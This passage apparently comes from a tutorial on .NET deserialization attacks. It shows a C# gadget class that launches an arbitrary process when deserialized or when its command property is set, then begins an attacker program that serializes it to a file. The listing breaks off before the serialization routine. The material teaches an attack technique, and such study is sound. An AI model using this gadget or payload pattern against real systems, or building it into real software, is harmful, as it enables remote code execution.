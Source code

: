 * Serializable
* Holding public/settable variables
* Implementing magic "functions" (we'll see an example below), like:
    - Get/Set
    - OnSerialisation
    - Constructors/Destructors

Now, if you take a deeper look at the code above, you'll find this class:

```csharp
 [Serializable]
public class RCE : IDeserializationCallback
{
    private String _cmd;
    public String cmd
    {
        get { return _cmd; }
        set
        {
            _cmd = value;
            Run();
        }
    }

    public void Run()
    {
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = _cmd;
        p.Start();
        p.Dispose();
    }

    public void OnDeserialization(object sender) {
        Run();
    }
}
```

This class seems suitable for our needs, it can be considered as it's a valid **Gadget**, as even alone it can allow us to reach remote code execution. In order to achieve it, it would be enough for an attacker to serialize the RCE class giving a valid command to execute: 

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using
System.Runtime.Serialization.Formatters.Binary;
namespace BinarySerialization
{
    public static class BinarySerialization
    {
        private const string filename = "desert.ser";
        [STAThread]
        static void Main(string[] args)
        {
            Console.WriteLine();
            // Delete old file, if it exists
            BinarySerialization.deleteFile(filename);
            // Serialize RCE
            BinarySerialization.desertSerial(filename);
            // Wait for Enter
            Console.WriteLine();
            Console.WriteLine("Press Enter Key");
            Console.Read();
        }
```